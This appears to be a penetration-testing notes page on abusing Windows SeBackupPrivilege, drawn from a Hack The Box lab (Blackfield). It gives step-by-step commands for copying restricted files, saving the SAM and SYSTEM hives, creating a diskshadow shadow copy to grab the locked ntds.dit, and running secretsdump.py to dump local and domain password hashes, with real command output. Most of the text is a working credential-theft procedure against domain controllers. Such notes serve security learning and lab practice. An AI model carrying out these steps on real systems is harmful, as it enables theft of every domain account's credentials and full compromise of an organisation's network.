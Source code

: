 # SeBackupPrivilege and SeRestorePrivilege 

* Check with: `whoami /priv`

If we are **SeBackupPrivilege** and **SeRestorePrivilege** we can basically backup (copy) any file we want, ignoring file permissions, making us as powerful as SYSTEM.

In order to use this awesome copying power we need to act as a backup tool, the regular copy command won't work.


## Backup copying

* Source: https://github.com/giuliano108/SeBackupPrivilege

**Note:** The pre-compiled dll's are x64

Howto:
```default
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Set-SeBackupPrivilege

Copy-FileSeBackupPrivilege .\restricted_file.txt c:\temp\stolen.txt -Overwrite
```

The `Set-SeBackupPrivilege` command will set our backup privs to "enabled" if there were "disabled" before.


## Active directory

The Security Account Manager (SAM) manages user account security on Windows. The usernames and hashes of all users are stored in the three registry hives: SAM, SYSTEM and SECURITY.


I am not 100% sure on this, but at least on one box (htb blackfield) I could also just export sam and system as a non-admin, without having to use backup copying:

```default
reg save hklm\sam .\sam
reg save hklm\system  .\system 
download sam
download system
secretsdump.py -system system -sam sam LOCAL
# ... will print local accounts and their password hashes
```

I am not 100% sure whether that is because of SeBackupPrivilege or just a pecularity of that box.

Exporting SAM and SYSTEM worked, but exporting the SECURITY hive did not work though (access denied), so I only got local user hashes out of this (this machine was an AD Domain Controller).

In order to get Active Directory creds I needed to debug-copy the ntds.dit file (C:\Windows\NTDS\ntds.dit). But when I tried to copy it via the above method (Copy-FileSeBackupPrivilege) I got an error telling me the file was busy.

In order to circumvent this, we need to use a disk shadow copy.


Create an ascii text file "command":

```default
set context persistent nowriters
add volume c: alias temp
create
expose %temp% z:

```

Make sure to save it with windows line endings (CRLF). Transfer it to the target.

You have to be in a writable location (e.g. a TEMP directory. On PS you can try `cd $env:TEMP`):

```powershell
diskshadow.exe /s .\command
```

The output should look somewhat like this:
```powershell
*Evil-WinRM* PS C:\Users\svc_backup\AppData\Local\Temp\blub> diskshadow.exe /s .\command
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  12/22/2020 11:37:47 AM

-> set context persistent nowriters
-> add volume c: alias temp
-> create
Alias temp for shadow ID {43818beb-b876-4613-ba1e-dda50f5a3ab4} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {341715d3-421e-44a6-9166-af293673b98c} set as environment variable.

Querying all shadow copies with the shadow copy set ID {341715d3-421e-44a6-9166-af293673b98c}

        * Shadow copy ID = {43818beb-b876-4613-ba1e-dda50f5a3ab4}               %temp%
                - Shadow copy set: {341715d3-421e-44a6-9166-af293673b98c}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{351b4712-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 12/22/2020 11:37:47 AM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %temp% z:
-> %temp% = {43818beb-b876-4613-ba1e-dda50f5a3ab4}
The shadow copy was successfully exposed as z:\.
->
```

Now you can just copy the file from the mirror disk:
```powershell
Copy-FileSeBackupPrivilege z:\Windows\NTDS\ntds.dit .\ntds.dit
```

Download it to your machine and use secretsdump.py again:
```powershell
secretsdump.py -system system -ntds ntds.dit LOCAL
```

It should dump all the domain users as well.
